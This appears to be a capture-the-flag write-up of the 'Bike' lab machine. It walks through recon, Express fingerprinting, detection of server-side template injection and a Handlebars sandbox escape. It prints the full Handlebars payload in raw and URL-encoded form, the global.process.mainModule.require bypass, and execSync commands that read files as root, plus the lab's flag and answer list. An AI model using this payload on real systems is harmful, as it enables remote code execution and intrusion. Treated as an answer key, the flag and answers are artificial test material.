





# Bike

This write-up is provided strictly for educational purposes, to demonstrate how server-side template injection flaws can be identified and exploited in controlled lab environments.

## Overview

This write-up documents the compromise of the _Bike_ machine. The attack chain is based strictly on observable evidence: network reconnaissance, web stack fingerprinting (Node.js/Express), SSTI confirmation, template engine identification (Handlebars via stack trace), payload interception in Burp, URL encoding, sandbox escape adjustments using Node’s top-level scope, command execution, and flag retrieval.

All steps are reproducible and evidence-driven.

---

## Answers Summary

- **Open TCP ports** → `22,80`
- **Software on HTTP port** → `Node.js`
- **Web framework (Wappalyzer)** → `Express`
- **Vulnerability tested with `{{7*7}}`** → `Server Side Template Injection`
- **Templating engine** → `Handlebars`
- **Burp tab used to encode text** → `Decoder`
- **Encoding used for special characters** → `URL`
- **"Not defined" in the error** → `require`
- **Top-level scope variable in Node.js** → `global`
- **User running the webserver** → `root`
- **Flag** → `6b258d726d287462d60c103d0142a81c`

---

## 1. Initial Reconnaissance

A full TCP scan was performed:

```bash
sudo nmap -sCV <target-ip> -p- --min-rate 1000
```

Results:

```
22/tcp open  ssh  OpenSSH 8.2p1 Ubuntu
80/tcp open  http Node.js (Express middleware)
```

Open ports:

- **22/tcp** — SSH
- **80/tcp** — HTTP

---

## 2. Web Fingerprinting

Browsing to port 80 revealed a Node.js application.

Response headers confirmed Express:

```
X-Powered-By: Express
```

Wappalyzer identified the framework as **Express**.

---

## 3. SSTI Detection (Browser → Burp → Repeater)

The page contains a form field named `email`.

### Step 1 – Test from the browser

In the email field, the following payload was submitted:

```
{{7*7}}
```

This tests for Server-Side Template Injection.

---

### Step 2 – Intercept in Burp

1. Enable Burp Proxy interception.
2. Submit the form.
3. Capture the POST request.
4. Right-click → **Send to Repeater**.

The request looks like:

```
POST / HTTP/1.1
...
email=%7B%7B7*7%7D%7D&action=Submit
```

---

### Step 3 – Send from Repeater

Click **Send** in Repeater.

The response behavior differs from normal input, confirming that the input is processed server-side by a template engine.

This confirms **Server-Side Template Injection (SSTI)**.

---

## 4. Template Engine Identification (Handlebars)

Using malformed payloads triggers a stack trace.

The response contains:

```
/root/Backend/node_modules/handlebars/...
HandlebarsEnvironment.parse
```

This is direct evidence that the templating engine is **Handlebars**.

---

## 5. Using the HackTricks Handlebars Payload

[HackTricks Handlebars Payload](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=handlebars#handlebars-nodejs)

The following payload was taken from HackTricks (Handlebars SSTI section):

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

The URL-encoded version (as provided by HackTricks) :

```handlebars
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

Was used in the request :

```
POST / HTTP/1.1
...
email=%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D&action=Submit
```



### Observed Error

The response returned:

```
ReferenceError: require is not defined
```

This proves that `require` is not available in the Handlebars execution context.

---

## 7. Bypassing the `require` Restriction

Node.js exposes a top-level scope variable:

```
global
```

> According to the official Node.js documentation, process.mainModule references the entry module of the application.
> Since every Node.js module has its own require function, accessing process.mainModule.require allows retrieving the module loader even when require is not directly available in the template scope.

Although `require` is not directly accessible, it can be reached via:

```js
global.process.mainModule.require;
```

So the injected command string was modified from:

```js
return require("child_process").exec("whoami");
```

To:

```js
return global.process.mainModule.require("child_process").execSync("whoami");
```

The new payload is :

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.require('child_process').execSync('whoami')"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

After modifying the payload:

1. Replace the command string inside the HackTricks structure.
2. Go to **Decoder**.
3. Encode as **URL**.
4. Paste encoded payload back into Repeater.
5. Click **Send**.


---

## 8. Command Execution Confirmed

The response returned:

```
root
```



This confirms:

- Command execution is achieved
- The webserver is running as **root**

---

## 9. Retrieving the Flag

In Burp Repeater:

1. Higlight the payload.
2. On the right panel, go to **Inspector**.
3. Under "Decoded from" select **URL encoding**.
4. Click **Apply changes**.



### Step 1 – List parent directory

Modify injected command:

```js
return global.process.mainModule.require("child_process").execSync("ls ../");
```

Encode as URL → Send.

Identify `flag.txt`.



---

### Step 2 – Read the flag

Modify injected command:

```js
return global.process.mainModule
  .require("child_process")
  .execSync("cat ../flag.txt");
```

Encode as URL → Send.

Response:

```
6b258d726d287462d60c103d0142a81c
```



---

## Key Takeaways

- Always test SSTI from browser first.
- Always capture and modify requests in Burp Repeater.
- Use Inspector / Decoder to URL-encode payloads.
- Stack traces reveal the template engine.
- `require is not defined` reveals sandbox limitation.
- Node’s `global.process.mainModule.require` can bypass restrictions.
- Running a webserver as root makes SSTI immediately critical.

---

## Conclusion

The compromise followed a strict evidence-based chain:

1. Full TCP reconnaissance.
2. Web fingerprinting (Node.js + Express).
3. SSTI detection using `{{7*7}}`.
4. Stack trace reveals Handlebars.
5. HackTricks payload injected.
6. URL encoding via Burp Inspector / Decoder.
7. Error analysis: `require is not defined`.
8. Pivot to `global.process.mainModule.require`.
9. Command execution as root.
10. Flag retrieval.

This lab demonstrates how a single SSTI vulnerability in Node.js can escalate directly to full system compromise when combined with improper privilege separation.
